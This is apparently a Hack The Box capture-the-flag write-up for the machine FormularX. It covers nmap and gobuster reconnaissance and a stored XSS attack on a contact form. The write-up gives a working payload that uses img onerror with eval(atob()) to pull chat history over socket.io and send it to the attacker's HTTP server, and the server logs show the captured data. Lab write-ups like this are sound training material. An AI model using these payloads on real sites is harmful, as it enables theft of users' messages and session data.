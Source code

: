 # Write-up FormularX 
**Hackthebox**

## Recon
Using nmap tools: `nmap -sV -A --min-rate 15000 -v $ip -oN /opt/nmap/formularx`
```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 5f:b2:cd:54:e4:47:d1:0e:9e:81:35:92:3c:d6:a3:cb (ECDSA)
|_  256 b9:f0:0d:dc:05:7b:fa:fb:91:e6:d0:b4:59:e6:db:88 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 496A37014B10519386B2904D1B3086BE
|_http-cors: GET POST
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_Requested resource was /static/index.html
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=3/12%OT=22%CT=1%CU=38765%PV=Y%DS=2%DC=T%G=Y%TM=65F0
OS:175E%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)
OS:SEQ(SP=103%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=FF%GCD=1%ISR=109%TI=
OS:Z%CI=Z%II=I%TS=A)OPS(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M5
OS:3CST11NW7%O5=M53CST11NW7%O6=M53CST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88
OS:%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF
OS:=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z
OS:%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=
OS:Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%
OS:RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
OS:IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 46.071 days (since Fri Jan 26 02:07:55 2024)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1723/tcp)
HOP RTT       ADDRESS
1   279.52 ms 10.10.14.1
2   279.74 ms 10.10.11.6
```

When i analysis this site at port 80, i see it use nodejs, expressjs and auth with jwt.
- Use `gobuster` enumurate file and dir -> see /restricted/chat.js
- From that file you redirect to contact page, you see xxs vul in this
how to know
1. fill firstname and lastname at textarea fill `<img src=x onerror="document.location='http:<yourmachine>:<port>/`"/>`
2. Listen http server, you can use `php -S 0.0.0.0:<port>` or `python -m http.server <port>`
3. click send -> you see in your terminal our server is received the request
=> From chat.js, write the payload get info important from the server.

```shell
┌──(toan㉿kali)-[~]
└─$ cat test.js                         
const script = document.createElement('script');
script.src='/socket.io/socket.io.js';
document.head.appendChild(script);
script.addEventListener('load', function() {
const res = axios.get( /user/api/chat");
const socket = io('/',{withCredentials: true});
socket.on('message', (my_message) => {fetch("http://10.10.14.18:8888/?d=" + btoa(my_message))}) ;
socket.emit('client_message', 'history');
});
```
- Encode this payload, `cat test.js | base64`.

- the atob func will decode base64
`{"first_name":"a","last_name":"asdf","message":"<img src=x onerror=\"eval(atob('<payload encode base64>'))\">"}`

```shell
┌──(toan㉿kali)-[~]
└─$ python -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
10.10.11.6 - - [12/Mar/2024 08:05:48] "GET /shell.js HTTP/1.1" 200 -
10.10.11.6 - - [12/Mar/2024 08:05:52] "GET /shell.js HTTP/1.1" 200 -
10.10.11.6 - - [12/Mar/2024 08:05:55] "GET /shell.js HTTP/1.1" 200 -
10.10.11.6 - - [12/Mar/2024 08:05:59] "GET /shell.js HTTP/1.1" 200 -
10.10.11.6 - - [12/Mar/2024 08:06:02] "GET /shell.js HTTP/1.1" 200 -
10.10.11.6 - - [12/Mar/2024 08:06:06] "GET /shell.js HTTP/1.1" 200 -
10.10.11.6 - - [12/Mar/2024 08:06:09] "GET /shell.js HTTP/1.1" 200 -
10.10.11.6 - - [12/Mar/2024 08:06:13] "GET /shell.js HTTP/1.1" 200 -
10.10.11.6 - - [12/Mar/2024 08:08:30] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [12/Mar/2024 08:08:30] "OPTIONS /?d=R3JlZXRpbmdzIS4gSG93IGNhbiBpIGhlbHAgeW91IHRvZGF5ID8uIFlvdSBjYW4gdHlwZSBoZWxwIHRvIHNlZSBzb21lIGJ1aWxkaW4gY29tbWFuZHM= HTTP/1.1" 501 -
10.10.11.6 - - [12/Mar/2024 08:08:30] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [12/Mar/2024 08:08:30] "OPTIONS /?d=SGVsbG8sIEkgYW0gQWRtaW4uVGVzdGluZyB0aGUgQ2hhdCBBcHBsaWNhdGlvbg== HTTP/1.1" 501 -
10.10.11.6 - - [12/Mar/2024 08:08:30] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [12/Mar/2024 08:08:30] "OPTIONS /?d=V3JpdGUgYSBzY3JpcHQgZm9yICBkZXYtZ2l0LWF1dG8tdXBkYXRlLmNoYXRib3QuaHRiIHRvIHdvcmsgcHJvcGVybHk= HTTP/1.1" 501 -
10.10.11.6 - - [12/Mar/2024 08:08:30] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [12/Mar/2024 08:08:30] "OPTIONS /?d=V3JpdGUgYSBzY3JpcHQgdG8gYXV0b21hdGUgdGhlIGF1dG8tdXBkYXRl HTTP/1.1" 501 -
10.10.11.6 - - [12/Mar/2024 08:08:30] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [12/Mar/2024 08:08:30] "OPTIONS /?d=TWVzc2FnZSBTZW50Ojxicj5oaXN0b3J5 HTTP/1.1" 501 -
10.10.11.6 - - [12/Mar/2024 08:08:34] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [12/Mar/2024 08:08:34] "OPTIONS /?d=R3JlZXRpbmdzIS4gSG93IGNhbiBpIGhlbHAgeW91IHRvZGF5ID8uIFlvdSBjYW4gdHlwZSBoZWxwIHRvIHNlZSBzb21lIGJ1aWxkaW4gY29tbWFuZHM= HTTP/1.1" 501 -
10.10.11.6 - - [12/Mar/2024 08:08:34] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [12/Mar/2024 08:08:34] "OPTIONS /?d=SGVsbG8sIEkgYW0gQWRtaW4uVGVzdGluZyB0aGUgQ2hhdCBBcHBsaWNhdGlvbg== HTTP/1.1" 501 -
10.10.11.6 - - [12/Mar/2024 08:08:34] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [12/Mar/2024 08:08:34] "OPTIONS /?d=V3JpdGUgYSBzY3JpcHQgZm9yICBkZXYtZ2l0LWF1dG8tdXBkYXRlLmNoYXRib3QuaHRiIHRvIHdvcmsgcHJvcGVybHk= HTTP/1.1" 501 -
10.10.11.6 - - [12/Mar/2024 08:08:34] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [12/Mar/2024 08:08:34] "OPTIONS /?d=V3JpdGUgYSBzY3JpcHQgdG8gYXV0b21hdGUgdGhlIGF1dG8tdXBkYXRl HTTP/1.1" 501 -
10.10.11.6 - - [12/Mar/2024 08:08:34] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [12/Mar/2024 08:08:34] "OPTIONS /?d=TWVzc2FnZSBTZW50Ojxicj5oaXN0b3J5 HTTP/1.1" 501 -
10.10.11.6 - - [12/Mar/2024 08:08:37] code 501, message Unsupported method ('OPTIONS')
.....
```

=>
```shell
R3JlZXRpbmdzIS4gSG93IGNhbiBpIGhlbHAgeW91IHRvZGF5ID8uIFlvdSBjYW4gdHlwZSBoZWxwIHRvIHNlZSBzb21lIGJ1aWxkaW4gY29tbWFuZHM=
SGVsbG8sIEkgYW0gQWRtaW4uVGVzdGluZyB0aGUgQ2hhdCBBcHBsaWNhdGlvbg=
V3JpdGUgYSBzY3JpcHQgZm9yICBkZXYtZ2l0LWF1dG8tdXBkYXRlLmNoYXRib3QuaHRiIHRvIHdvcmsgcHJvcGVybHk=
```
[img1](./img/img1.png)
=> you see subdomain `dev-git-auto-update.chatbot.htb`

- add this domain into `/etc/hosts`.type:  `echo "10.10.11.6 dev-git-auto-update.chatbot.htb"  | sudo tee -a /etc/hosts`. goto that site!
...